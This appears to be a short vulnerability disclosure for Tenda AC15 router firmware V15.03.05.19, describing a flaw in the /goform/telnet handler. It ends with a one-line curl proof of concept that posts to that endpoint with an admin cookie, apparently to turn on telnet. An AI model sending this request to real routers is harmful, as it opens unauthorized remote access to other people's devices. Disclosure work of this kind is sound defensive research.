 # TendaAC15v15.03.05.19telnet

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/102680

## Affected version

AC15v1.0 V15.03.05.19

## Vulnerability details

An issue was discovered in AC15v1.0 V15.03.05.19 devices. An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.

![image-20250117231252601](/img/image-20250117231252601.png)

## POC

```python
curl -i -X POST http://192.168.1.100/goform/telnet -d aa=aa --cookie "user=admin" --http0.9
```

![image-20250117231359310](/img/image-20250117231359310.png)

